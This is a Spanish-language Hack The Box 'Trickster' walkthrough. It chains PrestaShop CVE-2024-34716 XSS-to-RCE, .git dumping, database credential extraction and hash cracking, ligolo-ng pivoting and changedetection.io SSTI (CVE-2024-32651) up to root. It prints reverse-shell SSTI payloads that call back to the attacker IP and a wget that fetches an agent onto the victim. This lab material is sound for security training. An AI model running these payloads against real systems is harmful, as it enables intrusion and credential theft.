+++
author = "Andrés Del Cerro"
title = "Hack The Box: Trickster Writeup | Medium"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "Trickster",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Prestashop Enumeration",
    "Information Disclosure",
    "git-dumper",
    "CVE-2024-34716",
    "XSS",
    "Chained XSS",
    "Database Enumeration",
    "Hash Cracking",
    "Cracking",
    "Password Cracking",
    "Abusing Password Reuse",
    "Reverse Proxy",
    "ligolo",
    "Pivoting",
    "CVE-2024-32651",
    "Server-Side Template Injection"
]

+++

# Hack The Box: Trickster Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Trickster"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.44.138 --ulimit 5000 -g
10.129.44.138 -> [22,80]
```

```console
$ nmap -p22,80 -sCV 10.129.44.138 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 20:39 CEST
Nmap scan report for 10.129.44.138
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_  256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.19 seconds

```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.44.138 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 20:40 CEST
Nmap scan report for 10.129.44.138
Host is up (0.055s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
17338/udp closed unknown
18985/udp closed unknown
23679/udp closed unknown
27895/udp closed unknown
31134/udp closed unknown
34892/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Del escaneo inicial encontramos el dominio `trickster.htb`, lo añadimos al `/etc/hosts`

Como no hay otro punto de entrada, vamos a enumerar el servicio HTTP.

# HTTP Enumeration
`whatweb` nos reporta un 403 Forbidden y no nos muestra mas información relevante.
```console
$ whatweb http://10.129.44.138
http://10.129.44.138 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.44.138], RedirectLocation[http://trickster.htb/], Title[301 Moved Permanently]
http://trickster.htb/ [403 Forbidden] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.44.138], Title[403 Forbidden]
```

Pero por alguna razón no me lo muestra al entrar con un navegador, así se ve el sitio web.


Encontramos el subdominio `shop.trickster.htb`, lo añadimos al `/etc/hosts` también.


Nos encontramos una instancia de `prestashop` y también vemos que se está utilizando `MySQL` por detrás.


Voy a crearme una cuenta en `/registration`


Vamos a detectar la versión de prestashop, en la versión 1.6 el CSS está en `/themes/nombre_tema/css/global.css`


El tema es `classic`


Vemos que ahí no está el CSS.


Sin embargo en la versión 1.7 el CSS está en `/themes/nombre_tema/assets/css/theme.css` y podemos comprobar que efectivamente está ahí.


También vemos que en la versión 1.7 existe una variable `prestashop` que no existe en la versión 1.6

Y podemos ver que es verdad.


# Git Information Disclosure
Podríamos intentar analizar los archivos CSS y JS para ver si encontramos la versión exacta, así que vamos a fuzzear este subdominio a ver que encontramos.

```console
$ feroxbuster -u http://shop.trickster.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100
```

Y encontramos algo mas interesante, un directorio `.git`


Quizás podamos encontrar credenciales o algo en este repositorio.


Vamos a utilizar `git-dumper` lo podemos descargar de [este repositorio de Github](https://github.com/arthaud/git-dumper)

Nos clonamos el repo.
```console
$ git clone https://github.com/arthaud/git-dumper
Cloning into 'git-dumper'...
remote: Enumerating objects: 197, done.
remote: Counting objects: 100% (130/130), done.
remote: Compressing objects: 100% (70/70), done.
remote: Total 197 (delta 83), reused 74 (delta 60), pack-reused 67 (from 1)
Receiving objects: 100% (197/197), 59.29 KiB | 1.41 MiB/s, done.
Resolving deltas: 100% (104/104), done.
```

Y ahora podemos reconstruir el proyecto.
```console
$ python3 git_dumper.py http://shop.trickster.htb/.git shop.trickster.htb         
[-] Testing http://shop.trickster.htb/.git/HEAD [200]                                     
[-] Testing http://shop.trickster.htb/.git/ [200]                                         
[-] Fetching .git recursively                                                             
[-] Fetching http://shop.trickster.htb/.git/ [200]                                        
[-] Fetching http://shop.trickster.htb/.gitignore [404]                                   
[-] http://shop.trickster.htb/.gitignore responded with status code 404                   
[-] Fetching http://shop.trickster.htb/.git/logs/ [200]                                   
[-] Fetching http://shop.trickster.htb/.git/HEAD [200]
[-] Fetching http://shop.trickster.htb/.git/description [200]
```

Y vemos los archivos del proyecto, vemos una ruta `admin634ewutrx1jgitlooaj`
```
```console
$ ls -la shop.trickster.htb/
total 216
drwxr-xr-x 1 pointedsec pointedsec    284 sep 23 20:58 .
drwxr-xr-x 1 pointedsec pointedsec    240 sep 23 20:58 ..
drwxr-xr-x 1 pointedsec pointedsec    378 sep 23 20:58 admin634ewutrx1jgitlooaj
-rw-r--r-- 1 pointedsec pointedsec   1305 sep 23 20:58 autoload.php
-rw-r--r-- 1 pointedsec pointedsec   2506 sep 23 20:58 error500.html
drwxr-xr-x 1 pointedsec pointedsec    128 sep 23 20:58 .git
-rw-r--r-- 1 pointedsec pointedsec   1169 sep 23 20:58 index.php
-rw-r--r-- 1 pointedsec pointedsec   1256 sep 23 20:58 init.php
-rw-r--r-- 1 pointedsec pointedsec    522 sep 23 20:58 Install_PrestaShop.html
-rw-r--r-- 1 pointedsec pointedsec   5054 sep 23 20:58 INSTALL.txt
-rw-r--r-- 1 pointedsec pointedsec 183862 sep 23 20:58 LICENSES
-rw-r--r-- 1 pointedsec pointedsec    863 sep 23 20:58 Makefile
-rw-r--r-- 1 pointedsec pointedsec   1538 sep 23 20:58 .php-cs-fixer.dist.php
```

Y detectamos la versión exacta en esta ruta.


Encontramos que esta versión es vulnerable a XSS. Vamos a intentar encontrar mas información sobre el `CVE-2024-34716`


# Abusing CVE-2024-34716 (Chained XSS leads to RCE)
Me encontré con [este PoC en Github](https://github.com/aelmokhtar/CVE-2024-34716) que nos lleva a [este artículo](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) que nos explica que es probable llegar a ejecutar código remoto a través del XSS.

Hay que editar algunas cosas en este PoC.

En la `reverse_shell.php` tenemos que modificar el puerto y la IP de escucha.


Y del PoC igual hay que cambiar el puerto de escucha.


En `exploit.html` también hay que cambiar algunos parámetros.


Nos reporta un código 200 al hacer el GET por segunda vez pero no recibimos la reverse shell.
```console
$ sudo python3 exploit.py                                       21:16:39 [153/239]
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb        
[?] Please enter your email: pointed@pointed.com                                          
[?] Please enter your message: test                                                       
[?] Please provide the path to your HTML file: exploit.html                               
[X] Yay! Your exploit was sent successfully!                                              
[X] Remember to python http server on port whatever port is specified in exploit.html     
        in directory that contains ps_next_8_theme_malicious.zip to host it.              
[X] Once a CS agent clicks on attachment, you'll get a SHELL!                             
[X] Ncat is now listening on port 443. Press Ctrl+C to terminate.                         
Serving at http.Server on port 5000                                                       
listening on [any] 443 ...                                                                
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403               
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 200
```

Además por arriba vemos las solicitudes de descarga del tema malicioso.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.44.138 - - [23/Sep/2024 21:14:48] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
10.129.44.138 - - [23/Sep/2024 21:15:55] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```

Voy a modificar el exploit para que escuche por el puerto 444 y me voy a poner yo en escucha manualmente con `pwncat-cs` por el puerto 443.


Nos ponemos en escucha.
```console
$ sudo pwncat-cs -lp 443
```

Al intentar explotarlo manualmente nos encontramos lo siguiente.


Vamos a hacer mas cambios, como esta máquina la estoy haciendo sin el VIP de HackTheBox significa que hay mas gente intentando hacer la explotación al mismo tiempo que yo por lo cual vamos a cambiar el nombre del PHP que se genera.

Dentro del zip nos encontramos el archivo `reverse_shell.php`, resulta que este es el archivo que hay que cambiar del PoC.
```console
$ ls
assets  dependencies  modules      ps_next_8_theme_malicious.zip  templates
config  _dev          preview.png  reverse_shell.php
```

Cambiamos la IP y el puerto.


Vamos a renombrar el nombre de la shell.
```console
$ mv reverse_shell.php pointedshell.php
```

Y creamos el zip con la nueva shell.
```console
$ zip -r ps_next_8_theme_malicious.zip *                                          
  adding: assets/ (stored 0%)                                                             
  adding: assets/cache/ (stored 0%)                                                       
  adding: assets/cache/index.php (deflated 48%)                                           
  adding: assets/css/ (stored 0%)
  adding: assets/css/012cf6a10129e2275d79d6adac7f3b02.woff (deflated 0%)
  adding: assets/css/0266b05265f317a7409560b751cd61e8.svg (deflated 43%)
  adding: assets/css/082a71677e756fb75817e8f262a07cb4.svg (deflated 53%)
  adding: assets/css/154da4697acc779b55af0a67f1241e4e.ttf (deflated 40%)
  adding: assets/css/199038f07312bfc6f0aabd3ed6a2b64d.woff2 (deflated 0%)
  adding: assets/css/19c1b868764c0e4d15a45d3f61250488.woff2 (deflated 0%)
  adding: assets/css/22c0528acb6d9cd5bf4c8f96381bc05c.svg (deflated 58%)
....
```

También en `exploit.py` modificamos la línea 104.



Ahora lanzamos el exploit.


Y vemos que no creamos el archivo `pointedshell.php` correctamente, esto puede ser porque otras personas están intentando instalar el tema y se está reemplazando al mío.
Además me di cuenta que al crear el zip no estaba incluyendo los archivos ocultos, entre ellos está el `.htaccess` para habilitarme acceder a todos los recursos.

Entonces otra vez modificando el contenido del zip, en la ruta `config/theme.yml` vamos a cambiar el nombre del tema.


Ahora si todo sale bien, nuestro PHP malicioso debería estar en `/themes/pointedtheme/pointedshell.php`

Entonces tenemos este `.htaccess`
```console
$ cat .htaccess 
<IfModule mod_authz_core.c>
    Require all granted
</IfModule>
```

Y ahora para crear el zip con el archivo oculto..
```console
$ zip -r ps_next_8_theme_malicious.zip .
```

Y podemos comprobar que ahora si se ha añadido.


Ahora lanzamos todo otra vez y cuando vemos que nos llega la solicitud arriba significa que el tema malicioso ya sea ha instalado, ignorando los 403 de abajo..


Ahora vemos que en la ruta esperada se encuentra algo..


Y recibimos la revshell.
```console
$ sudo pwncat-cs -lp 443
[21:36:05] Welcome to pwncat 🐈!                                           __main__.py:164
[21:58:57] received connection from 10.129.44.138:41694                                                                       bind.py:84
[21:58:58] 0.0.0.0:443: upgrading from /usr/bin/dash to /usr/bin/bash                                                     manager.py:957
[21:58:59] 10.129.44.138:41694: registered new host w/ db                                                                 manager.py:957
(local) pwncat$                                                                                                                         
(remote) www-data@trickster:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Pivoting
Encontramos las credenciales de acceso a base de datos en `/var/www/prestashop/app/config/parameters.php`
```console
(remote) www-data@trickster:/var/www/prestashop/app/config$ cat parameters.php                                         22:01:41 [39/430]
<?php return array (                                                                                                                    
  'parameters' =>                                                                                                                       
  array (                                                                                                                               
    'database_host' => '127.0.0.1',                                                                                                     
    'database_port' => '',                                                                                                              
    'database_name' => 'prestashop',                                                                                                    
    'database_user' => 'ps_user',                                                                                                       
    'database_password' => 'prest@shop_o',                                                                                              
    'database_prefix' => 'ps_',                                                                                                         
    'database_engine' => 'InnoDB',                                                                                                      
    'mailer_transport' => 'smtp',                                                                                                       
    'mailer_host' => '127.0.0.1',                                                                                                       
    'mailer_user' => NULL,                                                                                                              
    'mailer_password' => NULL,                                                                                                          
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',   
```

Las credenciales son `ps_user:prest@shop_o`

```console
(remote) www-data@trickster:/var/www/prestashop/app/config$ mysql -u ps_user -pprest@shop_o 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38833
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 
```

Vamos a enumerar los usuarios de `prestashop` para ver si podemos crackear algún hash.

Enumerando las tablas encontramos la siguiente-


Y encontramos unos hashes.
```console
MariaDB [prestashop]> select email,passwd from ps_employee;
+---------------------+--------------------------------------------------------------+
| email               | passwd                                                       |
+---------------------+--------------------------------------------------------------+
| admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C |
| james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm |
+---------------------+--------------------------------------------------------------+
2 rows in set (0.000 sec)

MariaDB [prestashop]> 
```

Me interesa saber si existe un usuario `james` en el sistema ya que si conseguimos crackear el hash quizás se reutilicen credenciales.

Y vemos que sí, existen los usuarios `james` y `adam`.
```console
(remote) www-data@trickster:/var/www/prestashop/app/config$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:trickster:/home/james:/bin/bash
adam:x:1002:1002::/home/adam:/bin/bash
```

Encontramos cuatro coincidencias posibles ara el hash de `james`, solo quedar probar a ver si conseguimos crackear la contraseña.


Aunque buscando un poco encontramos como se encriptan las contraseñas en `prestashop`.

> In 1.7, PrestaShop does not use "cookie_key" for new passwords (only for cookies).
> 
> On version 1.7 PrestaShop offers an encryption key migration mechanism.
> 
> **For password : bcrypt** is used to verify the password. If the verification fails, PrestaShop tries to verify the password with the old **md5** and **cookie_key**. If the old key is valid, PrestaShop re-encrypts the password with **bcrypt** .
> 
> You can study how it works in **/src/PrestaShop/Core/Crypto/Hashing.php**  and in the **getByEmail(...)** function of the **Customer** class.
> 
> **For the cookie**: **new_cookie_key** is used to read the cookie. If the reading fails, PrestaShop tries to read the cookie with the old **cookie_key**. If the old key is valid, PrestaShop re-encrypts the cookie with **new_cookie_key** .

Entonces podemos utilizar el modo `3200` que corresponde a `bcrypt`

```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 3200 .\hash.txt .\rockyou.txt
....
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Mon Sep 23 20:09:17 2024 (3 secs)
Time.Estimated...: Mon Sep 23 20:09:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13996 H/s (8.69ms) @ Accel:4 Loops:2 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 38016/14344387 (0.27%)
Rejected.........: 0/38016 (0.00%)
Restore.Point....: 36864/14344387 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:14-16
Candidate.Engine.: Device Generator
Candidates.#1....: hockey5 -> 102183
Hardware.Mon.#1..: Temp: 55c Fan: 35% Util: 18% Core:1535MHz Mem:2000MHz Bus:8
```

Y conseguimos crackearla.

Entonces tenemos otras credenciales, `james:alwaysandforever`

Y podemos autenticarnos como `james` por SSH.
```console
$ sshpass -p 'alwaysandforever' ssh james@trickster.htb
james@trickster:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```

También podemos leer la flag de usuario.
```console
james@trickster:~$ cat user.txt 
c23839860013e...
```

# Privilege Escalation

Enumerando los procesos de la máquina, vemos que existe `docker`


## Port Forwarding with `ligolo-ng`

Esta herramienta es muy interesante.

> **Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

https://github.com/nicocha30/ligolo-ng

Nos la clonamos
```console
$ git clone https://github.com/nicocha30/ligolo-ng
```

Y ahora con `make` lo compilamos.

Ahora en `dist/` tenemos varias implementaciones de esta herramienta.
```console
$ ls
ligolo-ng-agent-linux_amd64  ligolo-ng-agent-windows_amd64.exe  ligolo-ng-proxy-linux_amd64  ligolo-ng-proxy-windows_amd64.exe
```

Ejecutamos el proxy en nuestra máquina.
```console
$ sudo ./ligolo-ng-proxy-linux_amd64 -selfcert -laddr 0.0.0.0:443
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
WARN[0000] TLS Certificate fingerprint for ligolo is: 933182FA4AD7854BDF24B78D1FF5DEFE9CA3E9662A1B680BC1C0F985D6D824E3 
INFO[0000] Listening on 0.0.0.0:443                     
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: dev

ligolo-ng »  
```

Ahora en la máquina víctima descargamos el agente.
```console
james@trickster:/tmp$ wget http://10.10.16.24:8081/ligolo-ng-agent-linux_amd64
--2024-09-23 18:24:42--  http://10.10.16.24:8081/ligolo-ng-agent-linux_amd64
Connecting to 10.10.16.24:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6127768 (5.8M) [application/octet-stream]
Saving to: ‘ligolo-ng-agent-linux_amd64’

ligolo-ng-agent-linux_amd64       100%[=============================================================>]   5.84M  2.06MB/s    in 2.8s    

2024-09-23 18:24:45 (2.06 MB/s) - ‘ligolo-ng-agent-linux_amd64’ saved [6127768/6127768]
```

Ahora nos conectamos a nuestra máquina local.
```console
james@trickster:/tmp$ ./ligolo-ng-agent-linux_amd64 -connect 10.10.16.24:443 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.16.24:443"
```

Y vemos que nos llega la conexión.


Ahora en nuestra máquina vamos a crear la ruta para que los paquetes que se dirijan a los contenedores de la máquina víctima pasen por `ligolo`, recomiendo ver [este artículo](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740) donde se explica todo muy bien.
```console
$ sudo ip route add 172.17.0.0/16 dev ligolo
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/trickster/content/ligolo-ng/dist]
└──╼ [★]$ ip route
default via 192.168.1.1 dev ens33 proto dhcp src 192.168.1.52 metric 100 
default via 192.168.154.2 dev ens34 proto dhcp src 192.168.154.128 metric 101 
10.10.10.0/23 via 10.10.16.1 dev tun0 
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.24 
10.129.0.0/16 via 10.10.16.1 dev tun0 
172.17.0.0/16 dev ligolo scope link linkdown 
192.168.1.0/24 dev ens33 proto kernel scope link src 192.168.1.52 metric 100 
192.168.3.0/24 dev docker0 proto kernel scope link src 192.168.3.1 linkdown 
192.168.154.0/24 dev ens34 proto kernel scope link src 192.168.154.128 metric 101  
```

Ahora en `ligolo` podemos iniciar el túnel con `start`
```console
[Agent : james@trickster] » start
[Agent : james@trickster] » INFO[0363] Starting tunnel to james@trickster 
```

Y ahora podemos hacer ping a la máquina víctima pero a través de la interfaz `docker0`
```console
$ ping 172.17.0.1
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=142 ms
64 bytes from 172.17.0.1: icmp_seq=2 ttl=64 time=148 ms
64 bytes from 172.17.0.1: icmp_seq=3 ttl=64 time=188 ms
```

## Pivoting to container
Haciendo un pequeño script en bash podemos analizar que hosts están activos en la máquina víctima y encontramos uno.
```console
$ ./scan.sh                                                                                                                     
172.17.0.1 está activo                                                                                                                  
172.17.0.2 está activo                                                                                                                  
172.17.0.3 no responde                                                                                                                  
172.17.0.4 no responde                                                                                                                  
172.17.0.5 no responde                                                                                                                  
172.17.0.6 no responde
```

Vamos con `rustscan` a ver que puertos tiene abiertos este contenedor.
```console
$ rustscan -a 172.17.0.2 --ulimit 5000 -g
172.17.0.2 -> [5000]
```

Vemos que tiene abierto el puerto 5000.

## Enumerating container 5000 Web Server
`whatweb` nos reporta que existe un panel de inicio de sesión y vemos algo. `changedetection.io`
```console
$ whatweb http://172.17.0.2:5000
http://172.17.0.2:5000 [302 Found] Cookies[session], Country[RESERVED][ZZ], HTML5, HttpOnly[session], IP[172.17.0.2], RedirectLocation[/login?next=/], Title[Redirecting...], UncommonHeaders[access-control-allow-origin]
http://172.17.0.2:5000/login?next=/ [200 OK] Cookies[session], Country[RESERVED][ZZ], Email[defaultuser@changedetection.io], HTML5, HttpOnly[session], IP[172.17.0.2], JQuery[3.6.0], PasswordField[password], Script, Title[Change Detection], UncommonHeaders[access-control-allow-origin]
```



Vemos que es una instancia de `changedetection.io` de versión `0.45.20`

Rápidamente encontramos que esta versión es vulnerable a Server-Side Template Injection por lo cual podemos conseguir ejecutar comandos en la máquina víctima.
Recomiendo leer [este artículo](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/)

## Abusing CVE-2024-32651 (Server-Side Template Injection)
### Pivoting to container
La credencial de acceso es `alwaysandforever`, la contraseña de `james`

Entonces para explotar este SSTI, el primer paso es editar una de las plantillas que ya existen, en este caso voy a editar la primera.

Como las máquina de HackTheBox no tienen conexión a internet, me interesa que monitorice un sitio web al que pueda llegar entonces voy a hostear yo uno por el puerto 8082.


También cambiamos el tiempo de comprobación a 10 segundos.

Luego en el apartado de `Notifications -> Notification Body` es donde vamos a insertar nuestro payload 


Al probarlo vemos lo siguiente


Se hace una petición a nuestro sitio web pero no nos llega el ping.
```console
$ python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
10.129.44.138 - - [23/Sep/2024 22:51:15] code 404, message File not found
10.129.44.138 - - [23/Sep/2024 22:51:15] "GET /index.html HTTP/1.1" 404 -
10.129.44.138 - - [23/Sep/2024 22:53:08] code 404, message File not found
10.129.44.138 - - [23/Sep/2024 22:53:08] "GET /index.html HTTP/1.1" 404 -
```

```console
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Cambié el payload del SSTI pero seguía sin llegarme ninguna shell.
```python
{}
        {}
        {{{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\"{10.10.16.24}\\",{444}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\"/bin/bash\\")'").read()}}}}
        {}
        {}
```

Esto quiero pensar que es porque no existe ninguna notificación configurada.

Entonces sabiendo que esto es vulnerable a SSTI podemos probar a configurar una notificación global.

Entonces como URL a notificar vamos a poner que se tramite una petición GET a mi endpoint.
`get://10.10.16.24:8082/notification`

Y como payload vamos a usar uno genérico para mandarnos una revshell.
```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.24\",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}
```


Ahora si le damos a `Send test notification`


Conseguimos acceso al contenedor, todavía no se para que me puede servir esto pero vamos a investigar.

Rápidamente viendo el histórico de comandos del contendor encontramos una credencial.
```console
(remote) root@ae5c137aa8ef:/app# history                                                                                                
    1  apt update                                                                                                                       
    2  #YouC4ntCatchMe#                                                                                                                 
    3  apt-get install libcap2-bin                                                                                                      
    4  capsh --print                                                                                                                    
    5  clear
    6  capsh --print
    7  cd changedetectionio/
    8  ls
```

Con esta credencial no podemos migrar a `adam` pero si a `root` directamente.
```console
james@trickster:~$ su adam
Password: 
su: Authentication failure
james@trickster:~$ #YouC4ntCatchMe#^C
james@trickster:~$ su root
Password: 
root@trickster:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@trickster:/home/james#
```

Podemos leer la flag de `root`
```console
root@trickster:~# cat root.txt 
fa3b13db76e3a0...
```

¡Y ya estaría!

Happy Hacking! 🚀